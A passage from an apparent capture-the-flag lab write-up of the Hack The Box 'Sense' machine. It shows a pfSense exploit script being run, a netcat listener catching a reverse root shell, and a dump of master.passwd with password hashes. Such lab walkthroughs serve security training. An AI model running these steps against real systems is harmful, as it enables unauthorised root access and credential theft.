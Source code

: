 
Running the exploit:

```
root@kali:~/htb/sense# python3 pfsense_exploit.py --rhost 10.10.10.60 --lhost 10.10.14.9 --lport 443 --username rohit --password pfsense                                                                    
CSRF token obtained
Running exploit...
Exploit completed

```

Catching the shell:

```
root@kali:~/htb# nc -lvp 443
listening on [any] 443 ...
10.10.10.60: inverse host lookup failed: Unknown host
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.60] 38589
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# hostname
pfSense.localdomain
```

We are instantly root.

Sometimes it is actually easier to use standalone exploits that trying to figure out why Metasploit is not working.

## Dumping credentials

On a BSD OS the shadow file equivalent is called "master.passwd".

```
root:$1$gDyBgZkB$gPfZd5kHRQ/c/E/YerLft1:0:0::0:0:Charlie &:/root:/bin/sh
toor:*:0:0::0:0:Bourne-again Superuser:/root:
daemon:*:1:1::0:0:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5::0:0:System &:/:/usr/sbin/nologin
bin:*:3:7::0:0:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533::0:0:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533::0:0:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13::0:0:Games pseudo-user:/usr/games:/usr/sbin/nologin
news:*:8:8::0:0:News Subsystem:/:/usr/sbin/nologin
man:*:9:9::0:0:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22::0:0:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25::0:0:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26::0:0:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53::0:0:Bind Sandbox:/:/usr/sbin/nologin
proxy:*:62:62::0:0:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64::0:0:pflogd privsep user:/var/empty:/usr/sbin/nologin
www:*:80:80::0:0:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
nobody:*:65534:65534::0:0:Unprivileged user:/nonexistent:/usr/sbin/nologin
dhcpd:*:1002:1002::0:0:DHCP Daemon:/nonexistent:/sbin/nologin
_dhcp:*:65:65::0:0:dhcp programs:/var/empty:/usr/sbin/nologin
_isakmpd:*:68:68::0:0:isakmpd privsep:/var/empty:/sbin/nologin
uucp:*:66:66::0:0:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6::0:0:Post Office Owner:/nonexistent:/usr/sbin/nologin
_ntp:*:123:123::0:0:NTP daemon:/var/empty:/sbin/nologin
_relayd:*:913:913::0:0:Relay Daemon:/var/empty:/usr/sbin/nologin
admin:$1$gDyBgZkB$gPfZd5kHRQ/c/E/YerLft1:0:0::0:0:System Administrator:/root:/etc/rc.initial
rohit:*LOCKED*$1$Mp36tTp7$i45qiAbbNfQEcOYCmCelQ0:2000:65534::0:0:Rohit:/home/rohit:/sbin/nologin
```
